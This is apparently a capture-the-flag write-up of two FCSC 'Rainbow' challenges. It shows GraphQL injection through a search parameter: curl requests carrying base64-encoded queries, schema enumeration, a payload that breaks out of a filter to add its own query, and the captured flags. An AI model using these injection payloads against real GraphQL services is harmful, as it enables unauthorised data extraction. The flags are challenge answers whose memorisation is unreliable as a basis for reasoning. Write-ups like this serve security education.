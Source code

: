 # Rainbow
## Try the app

We notice this GET request is made when the form is submitted.

```
$ curl 'http://challenges2.france-cybersecurity-challenge.fr:5006/index.php?search=eyBhbGxDb29rcyAoZmlsdGVyOiB7IGZpcnN0bmFtZToge2xpa2U6ICIldGVzdCUifX0pIHsgbm9kZXMgeyBmaXJzdG5hbWUsIGxhc3RuYW1lLCBzcGVjaWFsaXR5LCBwcmljZSB9fX0='
$ echo 'eyBhbGxDb29rcyAoZmlsdGVyOiB7IGZpcnN0bmFtZToge2xpa2U6ICIldGVzdCUifX0pIHsgbm9kZXMgeyBmaXJzdG5hbWUsIGxhc3RuYW1lLCBzcGVjaWFsaXR5LCBwcmljZSB9fX0=' | base64 -d
{ allCooks (filter: { firstname: {like: "%test%"}}) { nodes { firstname, lastname, speciality, price }}}
```

Some kind of JSON-based query, probably for some kind of NoSQL DBMS.

Anyways, we send **the entire query** to the server! No filter whatsoever!

It is actually GraphQL. The PayloadsAllTheThings repo contains a pretty useful [cheatsheet for GraphQL injections](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection), it even provides a ready-to-use enumeration query that dumps every single type and schema in the current database. (See [rainbow1_schema.json](rainbow1_schema.json))

<!-- Link schema.json -->

The `allFlags` query seems to do exactly what we want :)
```json
{ "data": { "__schema": { "types": [
    {
        "name": "Query",
        "fields": [
            ...,
            {
                "name": "allFlags",
                "description": "Reads and enables pagination through a set of `Flag`.",
                "args": [ ... ]
            }
            ...
        ]
    }
]}}}
```

Let's try ...

```
$ query="$(echo -n '{ allFlags { nodes { flag }} }' | base64 -w0 | tr -d '\n')";\
  curl "http://challenges2.france-cybersecurity-challenge.fr:5006/index.php?search=$query"
{"data":{"allFlags":{"nodes":[{"flag":"FCSC{1ef3c5c3ac3c56eb178bafea15b07b82c4a0ea8184d76a722337dca108add41a}"}]}}}
```

... FLAGGED! :)

# Rainbow 2
## Gather information
The query seems a bit different from the first one, so we have to play with it a lil to find what the query looks like.

```GraphQL
{
    allCooks (
        filter: {
            or: [
                { firstname: {like: "%INPUT%"}},
                { lastname: {like: "%INPUT%"}}
            ]
        }
    ) {
        nodes {
            firstname, lastname, speciality, price
        }
    }
}
```

No character is filtered so we can:
- end the string we write in
- close the filter statement
- close the `allCooks` query object
- start a new query object of our own!
- finish with a `#` so everything that follows is ignored

Since the `allFlags` query doesn't exist anymore, we need to gather a few more information about the database we're in. Let's print all fields of all types:

`a%"}}]}) {nodes { firstname, lastname, speciality, price }} myQuery: __schema {types {fields { name }, name}}}#`

(See [rainbow2_types.json]())

```
{
    "data": {
        "allCooks": {
            "nodes": [ ... ]
        },
        "myQuery": {
            "types": [
                {
                    "fields": [
                        ...,
                        {
                            "name": "allCooks"
                        },
                        {
                            "name": "allFlagNotTheSameTableNames"
                        },
                        ...
                    ],
                    "name": "Query"
                },
                ...,
                {
                    "fields": [
                        { "name": "nodeId" },
                        { "name": "id" },
                        { "name": "flagNotTheSameFieldName" }
                    ],
                    "name": "FlagNotTheSameTableName"
                },
                ...
            ]
        }
    }
}

```

## Extract flag

`a%"}}]}) {nodes { firstname, lastname, speciality, price }} flags: allFlagNotTheSameTableNames {nodes {flagNotTheSameFieldName}}}#`

```
{ "data": {
    "allCooks": { "nodes": [ ... ] },
    "flags": { "nodes": [ {
        "flagNotTheSameFieldName":
            "FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}" }
    ] }
}}

```

Re-FLAGGED! :)